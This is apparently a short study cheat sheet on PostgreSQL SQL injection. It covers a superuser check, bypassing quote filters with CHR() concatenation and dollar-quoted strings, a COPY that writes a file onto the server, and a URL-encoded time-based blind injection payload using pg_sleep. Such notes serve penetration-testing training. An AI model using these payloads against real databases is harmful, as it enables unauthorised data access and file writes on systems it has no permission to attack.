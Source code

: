 # PostgreSQL

String manipulation functions: https://www.postgresql.org/docs/14/functions-string.html

### Checklist

- [x] Check if user is DBA: `SELECT current_setting('is_superuser'); //'on' or 'off'`

### Quoted String Bypass

**Piping**

You can select individual characters using their code points (numbers that represent characters) and concatenate them together using the double pipe (||) operator.

> Note: This does not work for all SQL statements. See below for further bypasses.

```
amdb=#SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
 ?column?
----------
 AWAE
(1 row)
```

**Dollar-quoted String Constants**

[Lexical Structure](https://www.postgresql.org/docs/14/sql-syntax-lexical.html) in PostgreSQL allows other methods to represent strings. One is support for dollar-quoted string constants. Two dollar characters ($$) can be used as a quote (') substitute by themselves, or a single one ($) can indicate the beginning of a "tag". The tag is optional, can contain zero or more characters, and is terminated with a matching dollar ($). If used, this tag is then required at the end of the string as well:

```
SELECT 'AWAE';
SELECT $$AWAE$$;
SELECT $TAG$AWAE$TAG$;

CREATE TEMP TABLE AWAE(offsec text);INSERT INTO AWAE(offsec) VALUES ($$test$$);
COPY AWAE(offsec) TO $$C:\Program Files (x86)\PostgreSQL\9.2\data\test.txt$$;

COPY 1

Query returned successfully in 201 msec.
```

### Time-based Injection

Check if executing as DBA:
```
SELECT+case+when+(SELECT+current_setting($$is_superuser$$))=$$on$$+then+pg_sleep(10)+end;--+
```
